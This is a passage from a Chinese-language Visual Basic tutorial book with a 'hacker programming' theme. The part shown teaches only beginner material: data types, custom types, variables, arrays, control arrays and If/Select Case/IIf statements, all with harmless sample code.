> 2. Fso.GetFile是FSO对象的GetFile方法，用于返回指定路径的文件所对应的文件对象。读者朋友们可在后面文件编程章节中系统地了解FSO对象的使用。

#### 6. 变体类型（Variant）

在用户不指定变量类型时，其默认为变体类型，变体类型可以存储前面介绍的几种类型的数据。例如：`Dim a`，该语句使a成为变体类型，当用户对其赋值时，程序会自动将其转换为相应的数据类型。

```vb
Dim Var1
Var1 = "VB黑客编程"
```

此时，程序会自动将变量Var1转换为字符串类型。又比如：

```vb
Dim Var1
Set Var1 = Form1    ' 建立对窗体Form1的引用
MsgBox Var1.Caption
```



此时，Var1被自动转换成对象引用类型。它的Caption属性值等同于Form1的Caption属性。

> **注意：**若事先已经知道变量的类型，笔者并不推荐大家使用变体类型，因为在声明变量时就指出其具体数据类型，可以提高程序存储和运行的效率。

### 1.5.2 自定义数据类型

VB中的自定义数据类型与C语言中的结构类型非常相似。比如我们需要保存学生信息，由于每个学生都有姓名、性别、年龄、民族等信息，因此，我们可以专门构造一个“Student”数据类型来保存他们的信息。在这个“Student”类型中，为其构造姓名、性别、年龄、民族等元素。在API浏览器中有一项是查看类型选项，即用以查看一些用户自定义数据类型，如图1-11所示。

**问：什么是API？**

答：API是Application Programming Interface（应用程序编程接口）的缩写，它是由操作系统提供的一套自带的功能强大的函数集，包括了函数声明和自定义数据类型的定义。关于API函数的细节，笔者将在后面的章节中专门为大家介绍，读者朋友们在这里亦可不必深究。

使用Type语句可以构造自定义数据类型，它的基本形式是：

```vb
[Public|Private] Type <类型名>
    <元素名1> As <类型1>
    <元素名2> As <类型2>
    ...
    <元素名n> As <类型n>
End Type
```

上面的类型1、类型2和类型n可以是基本的数据类型，也可以是自定义的数据类型。也就是说，自定义的数据类型中还可以再包含其他自定义数据类型。

在窗体的通用部分添加下面的代码：

```vb
Private Type 黑客手册
    Price     As Integer    ' 元素Price，为整型
    Language  As String     ' 元素Language，为变长字符串
End Type
```

问：哪里是窗体的通用部分？

答：在代码编辑窗口中，左边下拉列表框中的第一项即是通用（General），下拉到第一项即可。

接着再到窗体载入事件中添加代码：

```vb
Private Sub Form_Load()
    Dim Nohack As 黑客手册       ' 声明一个变量Nohack，为黑客手册数据类型
    Nohack.Price = 10            ' 为Nohack的第一个元素赋值为10
    Nohack.Language = "中文"      ' 为Nohack的Language元素赋值为“中文”
    MsgBox Nohack.Price          ' 提示Nohack的Price元素的值
End Sub
```

此时，得到Nohack.Price的值是10，Nohack.Language值为“中文”。需要注意的是，这里是使用Private在窗体中定义数据类型；如果需要在标准模块中定义数据类型，且可以在其他地方使用到，则需要使用Public定义。这涉及到作用域的问题：Private定义的变量或者类型只能在本窗体（或模块）中使用，而Public定义的变量和类型则可在其他任何窗体和模块中使用。本书中不对变量的作用域做单独介绍。

问：什么是标准模块？

答：标准模块（文件扩展名为.BAS）是一个过程和声明的容器。它可以包含变量、常数、类型、外部过程等。写入标准模块的代码不必绑在特定的应用程序上，在许多不同的应用程序中可以重复用标准模块。例如，由于MD5加密在很多地方都会使用到，而我们不可能每次使用之前都把MD5算法写出来。这样一来，我们就可以把MD5加密函数单独做成一个模块，供其他人调用。使用标准模块，可以提高代码的复用率，减少代码的编写量。在后面介绍过程和函数的时候，我们将会说明怎样使用标准模块。

## 1.6 变量和常量

从文字本身理解，变量就是用于存储可以动态改变的数据，而常量却是无法动态改变的，它只能是某个特定的值。打个比方说，变量就是你的身高，它可以随着你年龄增长而改变；而常量呢，就是你的民族，从你一生下来就决定了。声明变量的语法是：**Dim 变量名 As 数据类型**，而常量的定义则使用：**[Public|Private] Const 常量名 [As 数据类型] = 表达式**。括号中的Private和Public用于限定变量和常量的作用域。如果需要声明多个变量，可以使用逗号隔开，但是需要注意的是，每个变量后面都应该跟上相应的数据类型，这一点与C语言是不同的。例如，Dim a As Integer, b As Integer。这里a后面的As Integer并不能省略，若省略：Dim a, b As Integer，a就变成了变体类型，b为整型。下面举例说明怎样在各个窗体之间传递变量，也就是把一个窗体中的变量值传递到另一个窗体中（这里的传递是在同一程序的不同窗体间）。

首先添加一个窗体，使窗体的数量变为2，可以通过菜单中的“工程”→“添加窗体”来实现添加。在出现的窗口中，选择“窗体”，如图1-12所示，也可以在工程资源管理器里单击右键进行添加。

添加完毕之后，在窗体1的通用部分添加代码：`Public Magazine As String`，这里没有`Dim`。这样就在窗体1中声明了一个工程级别的变量，这个变量可以被程序中的其他任何窗体和模块引用。然后在窗体1的窗体载入事件中添加如下代码：

```vb
Private Sub Form_Load()
    Magazine = "Nohack 黑客手册"    ' 为 Magazine 变量赋初值
    Me.Hide                         ' 隐藏窗体1
    Form2.Show                      ' 显示窗体2
End Sub
```



接着在窗体2的载入事件中添加如下代码，引用窗体1的这个`Magazine`变量：

```vb
Private Sub Form_Load()
    MsgBox Form1.Magazine    ' 引用窗体1中的 Magazine 变量
End Sub
```

程序运行结果如图1-13所示，可以正确得到变量的值。



> **提示：**Form2.Show的意思是载入并显示窗体2，此时会触发Form2的载入事件（Load），这也是为什么会弹出消息对话框。

可以看出，引用其他窗体变量的方法是：窗体名.变量名，但是请注意这里的变量必须是工程级变量，否则传递时会出错，提示“未找到方法或数据成员”。

在一个程序中，为了防止遗漏对变量的声明，可以不允许隐式变量的存在，即进行强制变量声明。这时，在通用部分添加代码：`Option Explicit`。之后，如果在代码中出现了未事先定义的变量，编译器将会给出错误提示，如图1-14所示。



问：什么是隐式变量？

答：开发人员直接使用某个变量，而没有事先进行声明时，这样的变量称作隐式变量。

数组可以用来存储相同数据类型的一组数据，例如，一组数字、一组字符串等。声明数组的方法是：`Dim 数组名[下界 To 上界] [As 数据类型]`，这里若没有指明数据类型，则默认认为变体。如果声明时没有指出下界，则下界默认为0。例如，我们需要存储五个整数，就可以采用一个整型数组：```vb
Dim Num(1 To 5) As Integer    ' 声明一个元素为整数的数组，元素个数是5
' 下面单独给各个元素赋值
Num(1) = 111
Num(2) = 222
Num(3) = 333
Num(4) = 444
Num(5) = Num(1) + Num(4)      ' 各元素可以直接进行数学运算
```

括号中的 i 是数组元素的索引值。引用数组中的某个元素，则可以直接使用：数组名(索引值)，例如这里可以使用 Num(4) 来引用第 4 个元素。声明一个数组时，如果只填入上界，例如：Dim Num(20) As Integer，那么该数组的下界从 0 开始，Num(20) 表示的其实是第 21 个元素。

数组使用非常普遍，读者朋友们必须熟练地掌握。我们再来看一个例子，我们生成 10 个随机数放在一个数组中：

```vb
Private Sub Form_Load()
    Me.AutoRedraw = True        ' 设置窗体的自动重绘为True
    Dim Num(10) As Double       ' 声明一个数组，元素为Double型
    Randomize                   ' 产生随机数种子
    For i = 1 To 10             ' 循环为数组中的元素赋值
        Num(i) = Rnd * 10       ' 数组元素的值是随机数值乘以10
        Me.Print Num(i)         ' 在窗体中打印出数组元素的值
    Next i
End Sub
```





- 1. 问：上面的 Me 是什么意思？  
  答：关键字 Me 代表当前的窗体，上面的例子中 Me 等同于 Form1。
- 2. 问：AutoRedraw 属性有什么用？  
  答：当 AutoRedraw 为 True 时，窗体的自动重绘有效。在窗体上绘制或打印图形时，会立即生效。

注意：上面的代码中，Rnd 函数用于产生一个大于等于 0、但小于 1 的随机数，而 Randomize 则用于产生一个随机数种子，它的功能是使每次产生的随机值都不一样。如果没有 Randomize，则 Rnd 每次产生的随机值都是相同的。

For...Next 是一种循环语句，笔者在后面的语法基础中有专门的介绍，请大家参考相关内容。Me.Print 用于在窗体中打印数据，后面接需要打印的数据或变量。

上面的代码运行后如图 1-15 所示，数组中的十个元素的值都是不相同的。除了可以声明一个数组变量外，我们还可以建立一个控件数组。在实现多线程扫描时，我们一般会建立一个控件数组。下面示例建立一个按钮（Command）控件数组。首先在窗体中绘制一个按钮（Command），然后在按钮上单击右键，选择“复制”，再右键选择“粘贴”，此时弹出对话框，询问“已有一个控件 Command1，是否建立控件数组”，如图 1-16 所示。选择“是”即可建立一个控件数组。为了增加控件数组中元素的个数，我们可以继续粘贴（按下 Ctrl+V）。这以后，双击按钮数组中的一个按钮，可以进入代码编辑窗口。

这时代码窗口中的 Sub 过程多了一个参数 Index（控件的索引值），如图 1-17 所示。这个重要的参数 Index 就是用以区分各个不同按钮的，每个按钮都有一个 Index 值，而且它们的 Index 是不重复的。例如，我们写入下面的代码，就知道你单击了哪一个按钮：

```vb
Private Sub Command1_Click(Index As Integer)
    MsgBox "您单击了第" & Index & "个按钮"
End Sub
```



图 1-17 控件数组的代码中多了 Index 参数

问：上面的 “&” 符号是什么意思？  
答：“&” 是字符串连接符，用于连接多个字符串或字符串变量。例如，“VB” & “黑客编程” 的结果就是 “VB 黑客编程”。

控件数组中的元素同样使用：**控件名(索引值)** 来引用。例如，我们需要获取第三个按钮的 Caption 属性，则可以使用 Command1(2).Caption。注意这里索引值是从 0 开始的。

前面介绍的是一维数组，我们也有必要了解一下多维数组。声明一个多维数组的方法是：**Dim 数组名(下界 To 上界)(下界 To 上界) … [As 数据类型]**。

多维数组跟一维数组的区别在于，它有多个索引值，用于区别不同的元素。例如，我们存储平面中某个点的颜色值，则需要用 (X, Y) 这样两个坐标值来表示一个点。假设我们需要存储 100 个这样的点，就可以声明一个二维数组：Dim Point(9, 9) As Single。由于下标是从 0 开始的，那么 Point 这个数组可以存储的数据个数为 10*10=100 个。引用第一个元素的方法就是 Point(0,0)。

有必要的时候，我们甚至可以声明一个四维、五维的数组，然而，这样可能会降低程序的效率，如果需要存储和处理的数据量太大，会过多地消耗内存和 CPU，笔者之前写过的一个 4 维数组暴力排序程序，运行下来需要 50 分钟以上，这样显然是不太妥当的。

## 1.8 顺序基础

在本书中，我们只对顺序结构、选择结构、循环结构和一些常用的函数做简要的介绍。

### 1.8.1 顺序结构

顺序结构就是程序按照代码编写的顺序，从上到下一句一句地执行。它是最简单的一种结构。请看下例：

```vb
Private Sub Form_Load()
    Dim Num1 As Integer, Num2 As Integer, Total As Integer    '声明三个整型变量
    Num1 = 1                                                  '为 Num1 赋值
    Num2 = 2                                                  '为 Num2 赋值
    Total = Num1 + Num2                                       '进行求和计算
    MsgBox Total                                              '提示和的值
End Sub
```

这里程序就是由上到下依次执行的，不存在任何的跳转或者循环。运行到 End Sub 处，跳出 Sub 过程。当执行完语句 1 就一定会执行语句 2，不会跳转执行语句 3，也不会反复执行语句 1。

### 1.8.2 选择结构

简单说，选择结构就是程序会根据你给出的条件选择是否执行当前的这些语句。选择结构中，我们需要了解 If 语句和 Select 语句。

- 1. If 语句

If 语句最基本的形式是：If 条件 Then 语句，如果条件成立，则执行语句，否则不执行。这里的条件可以是逻辑表达式，也可以是数值，如果是数值，则会自动转换为逻辑表达式，非 0 转换为 True，0 转换为 False。给出最简单的两个例子：

```vb
If Version = "2.0" Then MsgBox "当前已经是最新版本"
```

如果变量 Version 的值为“2.0”，那么会给出提示，否则，不给出提示。

```vb
If -1 Then MsgBox "当前已经是最新版本"
```

运行上面的语句之后，一定会给出提示，因为数值 -1 转换为逻辑表达式后变成了 True，条件成立，执行后面的语句。If 语句的另一种基本形式是：

```vb
If 条件 Then
    语句1
Else
    语句2
End If
```



这里，如果条件成立，那么执行语句 1，否则（Else），执行语句 2，看下面的例子：

```vb
Dim Pass As String                              '声明一个字符串变量
Pass = InputBox("请输入你的管理密码", "输入")   '输入字符串并赋值给Pass
If Pass = "Nohack" Then                         '如果Pass的值为"Nohack"，提示登陆成功
    MsgBox "登陆成功"
Else
    MsgBox "你不具备管理权限"
End If
```

首先，用户需要输入管理密码。如果输入的密码是“Nohack”，则提示“登陆成功”，否则提示“你不具备管理权限”。

问：上面的 InputBox 是什么？

答：InputBox 是一个用户输入函数，在一个对话框中显示提示，等待用户输入。函数的基本形式是：InputBox(提示内容[, 对话框标题][, 输入的默认值])。后两个参数并不是必须的。例如：Pass = InputBox("提示内容1", "窗口标题1", "123456")，运行后如图 1-18 所示。

同时，If 语句还可以进行嵌套使用，也就是说，一个 If 语句里还可以出现其他的 If 语句。格式如下：

```vb
If 条件 1 Then
    ...
[Else]
    If 条件 2 Then
        ...
    [Else]
        If 条件 3 Then
            ...
        [Else]
            ......
        End If
    End If
End If
```

注意这里 If 和 End If 的成对使用。简单举例说明：

```vb
If UserName = "Admin" Then              ' 如果用户名是 Admin，则提示是超级管理员
    MsgBox "你是超级管理员"
Else
    If UserName = "Nohack" Then         ' 如果是 Nohack，提示是普通管理员
        MsgBox "你是普通管理员"
    Else
        MsgBox "对不起，你不具有管理权限"  ' 否则提示没有管理权限
    End If
End If
```

上面若 UserName 既不是 Admin，也不是 Nohack，则会提示“对不起，你不具备管理权限”。

- 2. 多分支 If 语句

多分支 If 语句有多个判断条件，若其中的某个条件成立，则执行对应的语句。其基本形式是：

```vb
If 条件 1 Then
    语句 1
ElseIf 条件 2 Then
    语句 2
ElseIf 条件 3 Then
    语句 3
......
[Else]
    语句 N
End If
```

若条件 1 成立，则执行语句 1，否则判断条件 2 是否成立；若条件 2 成立，则执行语句 2，否则，继续判断下一个条件；依次类推。如果所有的条件都不成立，则执行 Else 后面的语句。当然，Else 并不是必须的，也可以没有 Else 语句。简单举例说明：

```vb
Dim Singer As String
Singer = InputBox("请输入一个歌手的名字", "输入")
If Singer = "周杰伦" Then
    MsgBox "台湾歌手"
ElseIf Singer = "李宇春" Then
    MsgBox "大陆歌手"
ElseIf Singer = "梁咏琪" Then
    MsgBox "香港歌手"
Else
    MsgBox "未知地区歌手"
End If
```

当用户输入“周杰伦”时，会提示“台湾歌手”。而当输入的既不是“周杰伦”，也不是“李宇春”和“梁咏琪”时，执行 Else 后面的语句，提示“未知地区歌手”。

## 第二章 VB 编程基础

- 3. Select Case 语句

Select Case 也是多分支语句，可以筛选和判断多个条件。它的基本形式是：

```vb
Select Case 变量名
Case 表达式1
    语句1
Case 表达式2
    语句2
Case 表达式3
    语句3
......
[Case Else]
    [语句N]
End Select
```

它跟多分支的 If 语句有一些相似的地方，当表达式 1 成立时，执行语句 1；当表达式 2 成立时，执行语句 2；如果前面所有的表达式都不成立，则执行 Case Else 后面的语句；当然，这里 Case Else 语句也并不是必须的。简单举例说明其用法：

```vb
Dim MyMonth As Integer        '声明一个整型变量 MyMonth
MyMonth = Month(Now)          '将当前的月份赋值给 MyMonth
Select Case MyMonth           '对 MyMonth 变量的值进行选择
Case 1, 2, 3
    MsgBox "春天，哇，可以发春啦！"
Case 4, 5, 6
    MsgBox "夏天，哇，可以吃雪糕啦！"
Case 7, 8, 9
    MsgBox "秋天，哇，枫叶很好看哦！"
Case 10, 11, 12
    MsgBox "冬天，好冷啊！"
End Select
```

Now 函数用于获取当前的日期和时间，而 Month 函数则用于获取日期中的月份。Month(Now) 可以获取当前日期是几月份。Case 后面可以只跟一个表达式，也可以跟几个表达式，使用逗号隔开即可，只要满足其中任何一个值，都会执行对应的语句。如果当前月份为 1、2 或者 3，都会给出提示“春天，哇，可以发春啦！”。

- 4. IIf 语句

IIf 语句的基本形式是：`IIf(条件, 表达式1, 表达式2)`，当条件成立（为 True）时，IIf 语句返回表达式 1 的值，而当条件不成立时，返回表达式 2 的值。例如代码：

```vb
Const Singer = "周杰伦"        ' 歌手名是一个常量，为“周杰伦”
MsgBox IIf(Singer = "周杰伦", "台湾歌手", "未知地区")
MsgBox IIf(Singer = "李宇春", "大陆歌手", "其他地区")
```

